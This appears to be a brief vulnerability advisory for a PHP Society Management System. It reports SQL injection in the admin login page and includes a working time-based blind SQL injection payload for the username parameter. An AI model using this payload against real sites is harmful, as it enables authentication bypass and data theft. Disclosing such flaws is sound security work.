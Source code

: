 # Vendor

itsourcecode

# Product

Society Management System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2021/04/Society-Management-System-Project-In-PHP-Free-Download-Source-Code.zip

# Description
There is an SQL injection vulnerability on the /admin/check_admin.php page, allowing attackers to bypass the password and directly access the website's backend using a universal password. 
<img width="1089" alt="image" src="https://github.com/user-attachments/assets/565ca28b-f65e-4f5e-bd8c-cfde93a04bcc">


# Poc
```
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 9121 FROM (SELECT(SLEEP(5)))lIaJ) AND 'oHbk'='oHbk&password=ad
```
